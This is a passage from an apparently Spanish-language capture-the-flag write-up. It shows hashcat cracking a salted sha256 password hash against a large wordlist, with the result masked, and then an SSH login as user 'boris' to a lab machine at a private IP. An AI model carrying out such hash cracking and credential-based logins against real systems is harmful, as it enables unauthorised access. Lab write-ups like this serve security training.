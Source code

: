```bash
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=:*********1
Cracking performance lower than expected?

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit =>
```

## Shell as Boris

- Ahora nos podemos conectar por **ssh** .

```bash
➜  exploits ssh boris@10.10.86.89
The authenticity of host '10.10.86.89 (10.10.86.89)' can't be established.
ED25519 key fingerprint is SHA256:aTbKZv5Xp7PLsA5FUClvNUBdrInhhfMfeGbEfWDhRfg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.86.89' (ED25519) to the list of known hosts.
boris@10.10.86.89's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-1060-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Feb 26 17:26:55 UTC 2024

  System load:  0.0               Processes:              99
  Usage of /:   19.8% of 7.69GB   Users logged in:        0
  Memory usage: 24%               IP address for eth0:    10.10.86.89
  Swap usage:   0%                IP address for docker0: 172.17.0.1


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Sun Jan 23 13:11:53 2022 from 10.10.1.254
boris@ip-10-10-10-11:~$ whoami
boris
boris@ip-10-10-10-11:~$
```
